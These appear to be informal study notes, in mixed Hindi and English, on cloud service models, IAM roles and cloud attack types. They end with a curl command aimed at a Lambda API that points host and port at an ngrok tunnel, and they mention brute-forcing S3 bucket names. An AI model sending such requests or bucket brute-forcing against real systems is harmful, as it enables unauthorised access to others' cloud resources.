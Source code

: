 
# Cloud-Computing-module-iaas-paas-saas

Infrastructure as a Service (IaaS) = hardware rack cables ye sab cloud provider manages krega or OS software ye sab client manage krega

Platform as a Service (PaaS) = hardware rack cables ke sath sath OS Software ye sab cloud provider manages krega or client yaha per un software ko install khud krega

Software as a Service (SaaS) = In this situation everything will be managed by cloud provider, But coustmer pauy krega or services ko use krega

Cloud type = Public , hybrid , private

========================================================================================================================================================================================

# Identity-and-Access-Management-(IAM)

Identity and Access Management (IAM) = the main consept of IMA is Role-Based Access, kis user ko kya role dena hai or us role se related konse group provide krna hai, For example if i created 2 group one for HR and 2nd one is sales department then HR manager can not acees sales departemert 

***attack type idor , privillage etc***

==========================================================================================================================================================================================

# Security Misconfig attack
***We can use s3 bucket finder tool, For brute force s3 bucket and AWS CLI tool for find security misconfig attack***

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# serverless architecture aws lambda attack 

***curl "https://domain/api/panther?host=ngrock&port=port-numer" -H 'x-api-key: valuehere'***


